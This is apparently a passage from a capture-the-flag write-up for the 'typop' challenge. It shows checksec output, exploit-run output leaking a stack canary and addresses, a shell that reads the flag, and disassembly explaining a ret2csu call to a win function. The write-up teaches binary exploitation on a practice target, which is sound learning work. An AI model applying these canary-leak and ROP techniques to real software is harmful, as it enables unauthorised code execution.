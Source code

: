 ```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./'
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/idekCTF23/typop/attachments/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'Do you want to complete a survey?'
b'\nDo you like ctf?'
b'\nYou said: aaaaaaaaaaa'
0x5083a1afdcd2ae00
b'0+PA\xfd\x7f\nAww :( Can you provide some extra feedback?\nDo you like ctf?'
b'\nYou said: aaaaaaaaaaaaaaaaaaaaaaaaaa'
b'Gt\x17&\x8bU'
0x558b261774d3
b'\nAww :( Can you provide some extra feedback?\n'
0x7f5b9d17e420
0x7f5b9d23cc92
b'\nDo you like ctf?'
b'\nYou said: aa'
[*] Switching to interactive mode

Aww :( Can you provide some extra feedback?
$ ls
Dockerfile  chall_backup  flag.txt    typop_exploit.py
chall        core      libc-2.31.so    typop_payload.py
$ cat flag.txt
idek{2_guess_typos_do_matter}
$
```
## Solving with the actual win function (and ret2csu):

The code to determine the first characters of the file to be opened is actually fairly complicated, and it does not decompile well. Instead, you really need to look at the assembly. This loads the second argument (rsi) (technically the low four bytes in each case since esi etc is used) into ecx, the third into eax, and the first into edx itself. Then, the low byte of each of those registers is loaded into successive offsets within a stack variable, with the first character corresponding to the first argument of the function and so on. After the first three characters, the characters loaded in are hardcoded as "g.txt". So, the goal seems to be to call the win function with the first argument set to "f" (not a pointer to the string "f", just the ascii value thereof), the second to "l", and the third to "a".

```
        00101255 89  f1           MOV        ECX ,ESI
        00101257 89  d0           MOV        EAX ,EDX
        00101259 89  fa           MOV        EDX ,EDI
        0010125b 88  55  9c       MOV        byte ptr [RBP  + local_6c ],DL
        0010125e 89  ca           MOV        EDX ,ECX
        00101260 88  55  98       MOV        byte ptr [RBP  + local_70 ],DL
        00101263 88  45  94       MOV        byte ptr [RBP  + local_74 ],AL
        00101266 64  48  8b       MOV        RAX ,qword ptr FS:[0x28 ]
                 04  25  28 
                 00  00  00
        0010126f 48  89  45  f8    MOV        qword ptr [RBP  + local_10 ],RAX
        00101273 31  c0           XOR        EAX ,EAX
        00101275 48  c7  45       MOV        qword ptr [RBP  + local_52 ],0x0
                 b6  00  00 
                 00  00
```